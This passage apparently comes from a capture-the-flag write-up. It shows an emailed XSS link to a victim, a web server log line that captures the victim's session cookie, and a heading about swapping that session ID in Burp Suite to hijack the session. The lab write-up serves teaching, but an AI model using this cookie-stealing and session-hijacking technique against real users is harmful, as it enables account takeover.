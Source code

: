 ![XSS Link Email Victim](/img/blog/ctf8/email-barbara.png)

After a couple of minutes the following appeared in the web server logs:

{% highlight bash %}
192.168.221.135 - - [05/05/2014 10:54:28] "GET
/?SESS2130d5ef479afc30ab5b3f3d50bbfc5e=9ehlga5fhnh8o81om1aq5so040;%20has_js=1
HTTP/1.1" 301 -
{% endhighlight %}

Barbaras Session ID: <code>9ehlga5fhnh8o81om1aq5so040</code>

### Swapped Session ID Burp Suite

![Burp Swap Session ID](/img/blog/ctf8/burp-swap-session-id.png)
